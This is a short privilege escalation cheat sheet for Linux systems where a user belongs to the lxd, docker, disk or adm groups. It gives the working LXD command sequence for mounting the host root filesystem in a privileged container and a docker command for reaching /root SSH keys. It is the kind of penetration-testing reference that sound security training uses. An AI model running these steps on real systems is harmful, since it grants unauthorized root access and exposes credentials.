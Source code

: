 ## LXC / LXD

LXD is similar to Docker and is Ubuntu's container manager. Upon installation, all users are added to the LXD group. Membership of this group can be used to escalate privileges by creating an LXD container, making it privileged, and then accessing the host file system at `/mnt/root`

```shell
id

uid=1009(devops) gid=1009(devops) groups=1009(devops),110(lxd)
```
Start the LXD initialization process. Choose the defaults for each prompt. Consult this [post](https://www.digitalocean.com/community/tutorials/how-to-set-up-and-use-lxd-on-ubuntu-16-04) for more information on each step.

```shell
lxc image import alpine.tar.gz alpine.tar.gz.root --alias alpine
```

Start a privileged container with the `security.privileged` set to `true` to run the container without a UID mapping, making the root user in the container the same as the root user on the host.

```shell
lxc init alpine r00t -c security.privileged=true
```

Mount the host file system.

```shell
lxc config device add r00t mydev disk source=/ path=/mnt/root recursive=true
```

```shell
lxc start r00t
```

```shell
lxc exec r00t /bin/sh
```

## Docker

Placing a user in the docker group is essentially equivalent to root level access to the file system without requiring a password. Members of the docker group can spawn new docker containers. One example would be running the command `docker run -v /root:/mnt -it ubuntu`

This command creates a new Docker instance with the /root directory on the host file system mounted as a volume. Once the container is started we are able to browse the mounted directory and retrieve or add SSH keys for the root user

## Disk

Users within the disk group have full access to any devices contained within `/dev`, such as `/dev/sda1`, which is typically the main device used by the operating system. An attacker with these privileges can use `debugfs` to access the entire file system with root level privileges. As with the Docker group example, this could be leveraged to retrieve SSH keys, credentials or to add a user.

## ADM

Members of the adm group are able to read all logs stored in `/var/log`. This does not directly grant root access, but could be leveraged to gather sensitive data stored in log files or enumerate user actions and running cron jobs.

